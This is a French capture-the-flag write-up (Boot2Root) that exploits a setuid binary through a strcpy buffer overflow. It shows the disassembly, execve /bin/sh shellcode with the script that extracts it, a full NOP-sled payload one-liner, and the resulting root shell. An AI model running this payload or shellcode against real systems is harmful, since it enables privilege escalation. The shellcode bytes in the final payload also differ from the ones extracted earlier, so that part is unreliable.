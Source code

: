 # Buffer Overflow Nopslide exploit

A partir de **zaz**, on reprend le binaire **exploit_me** que l'on avait exploit dans le [writeup1](https://github.com/maginist/Boot2Root/blob/master/writeup1.md) :

```
gdb -q ./exploit_me
(gdb)> disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
```
<pre><code>0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)</code></pre>
>Le compare nous indique que le programme attend 1 seul argument.
```
0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
```
>strcpy copie et stocke notre premier argument dans la stack sans vérifier si la taille de l'argument correspond à celle du buffer de destination.

La fonction est donc exploitable par <code>buffer_overflow</code> pour corrompre les valeurs sauvegardées de **%ebp** et **%eip**.

On va effectuer une **nopslide attack**, qui consiste a placer un **SHELLCODE**, executant un **"shell"** ou une autre fonction, au milieu d'une **slide de nop** (**"\x90"**).
> L'instruction **nop** n'a comme seul but de passer a l'instruction suivante.

On connait l'adresse du buffer qui est :

<code>0xbffff640</code>

On connait l'**offset**, auquel on ecrase **%eip**, qui est de 140.

On utilse le **SHELLCODE**, créer de la maniere suivante :

### <span>script.sh</span>
```bash
#!/bin/sh
nasm -f elf binsh.s
objdump -d binsh.o
echo ''
objdump -d binsh.o | cut -d '	' -f2 | tr '\n' ' ' | sed $'s/^.*_main>:/shellcode::::::\\\n/' | tr -s ' ' | sed 's/ /\\x/g' | sed 's/......$//'
echo '\n'
LENGTH=`objdump -d binsh.o | tail -1 | cut -f1 | sed 's/.$//' | sed 's/ *//'`
LENGTHDEC=$(echo "obase=10; ibase=16; $LENGTH" | bc)
printf "lenght = 0x%d // %d \n" $LENGTH $LENGTHDEC
rm binsh.o
```
### <span>binsh.s</span>

```as
section .text
global _main

_main:
xor eax, eax	; eax = 0
push eax		; push null termination
push 0x68732f2f	; hs//
push 0x6e69622f	; nib/
mov ebx, esp	; path
mov ecx, eax	; argv
mov edx, eax	; env
mov al, 0xb		; sysall code for execve
int 0x80
nop
```

<pre><code>> sh script.sh

binsh.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_main>:
   0:   31 c0                   xor    %eax,%eax
   2:   50                      push   %eax
   3:   68 2f 2f 73 68          push   $0x68732f2f
   8:   68 2f 62 69 6e          push   $0x6e69622f
   d:   89 e3                   mov    %esp,%ebx
   f:   89 c1                   mov    %eax,%ecx
  11:   89 c2                   mov    %eax,%edx
  13:   b0 0b                   mov    $0xb,%al
  15:   cd 80                   int    $0x80
  17:   90                      nop

shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80

lenght = 0x17 // 23
</code></pre>

On prepare un **PAYLOAD** de 144 charactères, composé de la maniere suivante :
<pre><code>NOPSLIDE * 60 + SHELLCODE + NOPSLIDE * 57 + Address dans la 1ère NOPSLIDE/code></code></pre>

<pre><code>./exploit_me `python -c "print '\x90'*60 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x90'*57 + '\x50\xf6\xff\xbf'"`</code></pre>

Nous obtenons un terminal avec les droits **root** :
```
> id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```